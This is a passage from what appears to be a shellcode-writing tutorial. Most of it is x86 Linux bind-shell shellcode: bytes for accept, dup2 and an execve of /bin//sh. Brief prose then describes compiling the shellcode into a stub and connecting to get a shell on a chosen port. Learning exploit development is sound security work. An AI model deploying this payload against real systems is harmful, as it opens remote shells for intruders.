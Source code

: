 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
shellcode+="\\x89\\xe1\\xcd\\x80\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x05\\x31\\xc9\\x51\\x51"
shellcode+="\\x57\\x89\\xe1\\xcd\\x80\\x31\\xdb\\x89\\xc3\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd"
shellcode+="\\x80\\x49\\x79\\xf9\\x31\\xc0\\xb0\\x0b\\x31\\xdb\\x53\\x68\\x2f\\x2f\\x73\\x68"
shellcode+="\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xcd\\x80"

print(shellcode)
\end{verbatim}

Once we have our script we print out our updated shellcode and pop it back
into our shellcode.c stub program, compile and test a connection. When we do,
we get our shell again. And even better, we can change the port to whatever we
would like to yield the proper shellcode.
\end{document}
